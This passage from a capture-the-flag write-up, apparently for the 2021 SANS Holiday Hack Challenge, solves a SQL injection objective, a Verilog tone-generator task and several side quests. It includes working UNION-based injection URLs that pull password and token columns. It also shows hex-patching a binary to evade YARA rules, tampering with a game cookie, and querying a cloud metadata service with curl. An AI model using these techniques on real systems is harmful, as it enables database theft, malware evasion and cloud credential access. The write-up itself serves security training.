

Unfortunately, that information isn't what we are after. We need to take advantage of this vulnerability to extract unseen tables from the database. Note that the date columns must stay as dates to avoid JavaScript errors, so we can only play with the remaining fields. Walk through the tables to find anything interesting using the [information schema](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-table-reference.html):
```
https://staging.jackfrosttower.com/detail/0,0%20UNION%20ALL%20SELECT%20*%20FROM%20(SELECT%20id%20FROM%20users%20LIMIT%201)%20f1%20JOIN%20(SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_name%20%3E%20'emails'%20GROUP%20BY%20table_name)%20f2%20ON%201=1%20JOIN%20(SELECT%20password%20FROM%20users%20LIMIT%201)%20f3%20ON%201=1%20JOIN%20(SELECT%20user_status%20FROM%20users%20LIMIT%201)%20f4%20ON%201=1%20JOIN%20(SELECT%20token%20FROM%20users%20LIMIT%201)%20f5%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f6%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f7%20ON%201=1%20LIMIT%2010;--
```

There's a table called `todo`, which matches our objective. Let's now look at the columns available:
```
https://staging.jackfrosttower.com/detail/0,0%20UNION%20ALL%20SELECT%20*%20FROM%20(SELECT%20id%20FROM%20users%20LIMIT%201)%20f1%20JOIN%20(SELECT%20column_name%20FROM%20information_schema.COLUMNS%20WHERE%20table_name%20=%20'todo'%20GROUP%20BY%20column_name)%20f2%20ON%201=1%20JOIN%20(SELECT%20password%20FROM%20users%20LIMIT%201)%20f3%20ON%201=1%20JOIN%20(SELECT%20user_status%20FROM%20users%20LIMIT%201)%20f4%20ON%201=1%20JOIN%20(SELECT%20token%20FROM%20users%20LIMIT%201)%20f5%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f6%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f7%20ON%201=1%20LIMIT%2010;--
```

Now, we can see that this table has 3 columns:


With one last SQL injection query, we can extract our objective:
```
https://staging.jackfrosttower.com/detail/0,0%20UNION%20ALL%20SELECT%20*%20FROM%20(SELECT%20id%20FROM%20users%20LIMIT%201)%20f1%20JOIN%20(SELECT%20note%20FROM%20todo)%20f2%20ON%201=1%20JOIN%20(SELECT%20password%20FROM%20users%20LIMIT%201)%20f3%20ON%201=1%20JOIN%20(SELECT%20email%20FROM%20users%20LIMIT%201)%20f4%20ON%201=1%20JOIN%20(SELECT%20token%20FROM%20users%20LIMIT%201)%20f5%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f6%20ON%201=1%20JOIN%20(SELECT%20date_created%20FROM%20users%20LIMIT%201)%20f7%20ON%201=1%20LIMIT%2010;--
```

The answer is `clerk`:



### 13. FPGA Programming
#### Difficulty
4/5

#### Description
Write your first FPGA program to make a doll sing. You might get some suggestions from Grody Goiterson, near Jack's elevator.

#### Solution

**EE/CS 302: FPGA Design for Embedded Systems**
>Day 4 &ndash; Introduction to Verilog

>Hello, students! In exercise #4, we continue our FPGA journey, documenting the creation of the sound chip for this holiday season's new Kurse 'em Out Karen doll. Our goal is to make the doll say its trademark phrase ("Let me talk to your manager!"). But, as I always tell you in class, we must walk before we run.

>Before the doll can say anything, we must first have it make noise. In this exercise you will design an FPGA module that creates a square wave tone at a variable frequency.

>Creating a square wave output takes our clock signal (which is also a square wave) and uses a counter to divide the clock to match the desired frequency. One tricky problem that we'll encounter is that Verilog (v1364-2005) doesn't have a built-in mechanism to round real numbers to integers, so you'll need to devise a means to do that correctly if you want your module to match frequencies accurately.

>Good luck and always remember:

>If $rtoi(real_no * 10) - ($rtoi(real_no) * 10) > 4, add 1

Start by watching [this talk](https://www.youtube.com/watch?v=GFdG1PJ4QjA&list=PLjLd1hNA7YVx99qJF3OoPF-qunjqw-SoU&index=4) to learn the concepts:


Verilog is not a programming language it's a **Hardware Description Language (HDL)**:


Here's an example for the functionality of blinking an LED light:



Some important HDL concepts from that example:



The outcome of the FPGA is actually this:



Now, for the task:


Some hints from Professor Qwerty Petabyte:


<blockquote>
Console

Exercise #4 Objective: Students must prove their design before being allowed to program an actual device. The student's model must produce a 500Hz, 1KHz, and 2KHz square wave accurately AND accurately produce a square wave of a randomly chosen frequency. This tool will run the model under simulation, passing it the appropriate register values and measuring the frequency of the resulting square wave.

Important: Students MUST perform all simulation tests with the SAME code. If the code is changed, all tests will need to be re-run.

                                          - Prof. Qwerty Petabyte 
</blockquote>

The example provided uses a 100MHz clock, so we have to adjust to the 125MHz clock and allow for custom frequencies of sounds. What we have to keep in mind is that the clock frequency represents the number of cycles per second. We need to translate the desired frequency to the clock's frequency and divide up the cycle accordingly (and handle any rounding issues along the way):
```
// Note: For this lab, we will be working with QRP Corporation's CQC-11 FPGA.
// The CQC-11 operates with a 125MHz clock.
// Your design for a tone generator must support the following 
// inputs/outputs:
// (NOTE: DO NOT CHANGE THE NAMES. OUR AUTOMATED GRADING TOOL
// REQUIRES THE USE OF THESE NAMES!)
// input clk - this will be connected to the 125MHz system clock
// input rst - this will be connected to the system board's reset bus
// input freq - a 32 bit integer indicating the required frequency
//              (0 - 9999.99Hz) formatted as follows:
//              32'hf1206 or 32'd987654 = 9876.54Hz
// output wave_out - a square wave output of the desired frequency
// you can create whatever other variables you need, but remember
// to initialize them to something!

`timescale 1ns/1ns
module tone_generator (
    input clk,
    input rst,
    input [31:0] freq,
    output wave_out
);
    // ---- DO NOT CHANGE THE CODE ABOVE THIS LINE ---- 
    // ---- IT IS NECESSARY FOR AUTOMATED ANALYSIS ----
    reg [31:0] counter;
    real cycles = 125 * 1e6;
    real target_freq = $itor(freq) / 100.0;
    real clk_on = (cycles / target_freq) / 2.0;
    reg [31:0] square_wave;
    reg sound;
    assign wave_out = sound;

    always @(posedge clk or posedge rst)
    begin
        if(rst==1)
            begin
                counter <= 0;
                sound <= 0;
                if ($rtoi(clk_on * 10) - ($rtoi(clk_on) * 10) > 4)
                    begin
                        square_wave <= $rtoi(clk_on) + 1;
                    end
                else
                    square_wave <= $rtoi(clk_on);
            end
        else
            begin
                if(counter >= square_wave)
                    begin
                        counter <= 1;
                        sound <= sound ^ 1'b1;
                    end
                else
                    counter <= counter + 1;
            end
    end
endmodule
```

Once this is complete, walk over to the station where the troll Crunchy Squishter is building a device to communicate with the troll's home planet. Click on it, drag the FPGA chip onto the device, and summon the space ship:


Go into the space ship and talk to everyone there from right to left (otherwise they won't have anything to say). After you talk to the last one (Santa), the credits will roll:


## Side Quests
These are completed at Cranberry Pi terminals throughout the game typically next to elves who introduce the task and can provide hints to the main objectives in exchange for helping them with these.

### Noel Boetie - Logic Munchers
Select all True statements using various logic operations including logical AND/OR, XOR, and bitwise operations (like shifting left/right).

### Fitzy Shortstack - Yara Analysis
1. Use `ls` to identify the executable that we need to run.
2. Try to execute it and see the yara rule that prevents it.
3. View the yara rule in the files provided (repeat step 1 to find if needed).
4. Open the executable in vim.
5. Enter hex editing mode with xxd: `:%!xxd`.
6. Set up highlighting to better see what you are editing: `:set ft=xxd`.
7. Replace the content that is getting flagged by the yara rule with 0s in the hex.
8. Convert back to binary: `:%!xxd -r`
9. Repeat steps 1-9 to identify everything that needs to be addressed (see rules 135, 1056, then 1732).
10. Run the executable successfully.
    ```shell
    snowball2@f4e7d09d4e01:~$ ./the_critical_elf_app 
    Machine Running.. 
    Toy Levels: Very Merry, Terry
    Naughty/Nice Blockchain Assessment: Untampered
    Candy Sweetness Gauge: Exceedingly Sugarlicious
    Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564
    ```

### Ribb Bonbowford - Elf Code Python
Solve mini-puzzles using Python commands to help an elf complete his quests.

### Piney Sappington - Exif Metadata
Use `exiftool` on each of the documents in the current directory in the Cranberry Pi terminal to find the one last modified by Jack Frost. Make sure to talk to Piney Sappington again for tips on Tangle Coalbox's challenge.

### Tinsel Upatree - Strace Ltrace Retrace
The goal is to run the `make_the_candy` executable, but unfortunately there's something missing. First, use `ltrace` to see what configuration file we are missing:

```shell
kotton_kandy_co@93e00cedd462:~$ ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0
puts("Unable to open configuration fil"...Unable to open configuration file.
)               = 35
+++ exited (status 1) +++
```

Create the `registration.json` file with anything inside it and then use `ltrace` again to see what it is looking for in particular:

```shell
kotton_kandy_co@59f98eb83d05:~$ ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55c116f32260
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 2
strstr("{\n", "Registration")                             = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 25
strstr("    "Registration": true\n", "Registration")      = "Registration": true\n"
strchr("Registration": true\n", ':')                      = ": true\n"
strstr(": true\n", "True")                                = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 2
strstr("}\n", "Registration")                             = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

In the above, you can see it needs a key `Registration` with value `True` (as a string, not a Boolean).

### Grody Goiterson - Frost Tower Elevator
Solve a mini-puzzle with 6 possible logic gates to get all lights at the bottom light up.




### Jewel Loggins - IPv6 Sandbox
With access to one machine, find the password that is on another machine in the network. Helpful commands with IPv6 addresses can be found [here](https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f).

First, use `ping6` to find local addresses in the network segment. This hits the local hosts and routers using multicast addresses:



Use `nmap` on each of the IPv6 addresses in the previous result:



Using `curl` on the machine with port 80 open provides another clue:


Use `netcat` to connect to the other port on that machine as indicated in the above result:

```shell
elf@c0bc92272fcf:~$ netcat -6 fe80::42:c0ff:fea8:a002%eth0 9000                               
PieceOnEarth
```

### Chimney Scissorsticks - Santa's Holiday Hero
This is a two player game requiring the buttons to be pressed in time with the music with each player taking care of their side. In order to solve this, you have to enable single-player mode and score more than 80%. To enable single player mode, access the game by creating a room and then look at the network tab. By investigating the request made to the server, you will see that a cookie is being passed, which determines the mode. Go to the "Storage" tab in the Firefox devtools or Application -> Storage in Chrome to edit this cookie:

```shell
HOHOHO: %7B%22single_player%22%3Atrue%7D
```

This isn't enough to win though because it just makes it possible for one side to be controlled and start the game with a single player. The elf mentions that **two** client-side values have to be changed, one of which is passed to the server (the cookie). So something else needs to be tampered with...

Right click to inspect the game itself (not the full web page). Take a look at the JavaScript behind the game &ndash; any interesting variables? Navigate to the "Console" tab and set "single_player_mode = true" to have a computer agent join. Then, play the game.

Make sure to talk to Chimney Scissorsticks again to get tips for the Shellcode Primer objective.

### Noxious O. D'Or - IMDS Exploration
>The Instance Metadata Service (IMDS) is a virtual server for cloud assets at the IP address 169.254.169.254. Send a couple ping packets to the server.

```shell
elfu@e958e83b81b3:~$ ping -c 2 169.254.169.254
PING 169.254.169.254 (169.254.169.254) 56(84) bytes of data.
64 bytes from 169.254.169.254: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 169.254.169.254: icmp_seq=2 ttl=64 time=0.030 ms

--- 169.254.169.254 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1003ms
rtt min/avg/max/mdev = 0.015/0.022/0.030/0.007 ms
```
>IMDS provides information about currently running virtual machine instances. You can use it to manage and configure cloud nodes. IMDS is used by all major cloud providers. Developers can automate actions using IMDS. We'll interact with the server using the cURL tool. Run `curl http://169.254.169.254` to access IMDS data.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254
latest
```

>Different providers will have different formats for IMDS data. We're using an AWS-compatible IMDS server that returns 'latest' as the default response. Access the 'latest' endpoint. Run `curl http://169.254.169.254/latest`

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest
dynamic
meta-data
```

>IMDS returns two new endpoints: dynamic and meta-data. Let's start with the dynamic endpoint, which provides information about the instance itself. Repeat the request to access the dynamic endpoint: `curl http://169.254.169.254/latest/dynamic`.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/dynamic
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature
```

>The instance identity document can be used by developers to understand the instance details. Repeat the request, this time requesting the instance-identity/document resource: `curl http://169.254.169.254/latest/dynamic/instance-identity/document`.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}
```

>Much of the data retrieved from IMDS will be returned in JavaScript Object Notation (JSON) format. Piping the output to `jq` will make the content easier to read. Re-run the previous command, sending the output to JQ: `curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq`

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   451  100   451    0     0   440k      0 --:--:-- --:--:-- --:--:--  440k
{
  "accountId": "PCRVQVHN4S0L4V2TE",
  "imageId": "ami-0b69ea66ff7391e80",
  "availabilityZone": "np-north-1f",
  "ramdiskId": null,
  "kernelId": null,
  "devpayProductCodes": null,
  "marketplaceProductCodes": null,
  "version": "2017-09-30",
  "privateIp": "10.0.7.10",
  "billingProducts": null,
  "instanceId": "i-1234567890abcdef0",
  "pendingTime": "2021-12-01T07:02:24Z",
  "architecture": "x86_64",
  "instanceType": "m4.xlarge",
  "region": "np-north-1"
}
```

>Here we see several details about the instance when it was launched. Developers can use this information to optimize applications based on the instance launch parameters. In addition to dynamic parameters set at launch, IMDS offers metadata about the instance as well. Examine the metadata elements available: `curl http://169.254.169.254/latest/meta-data`

```shell
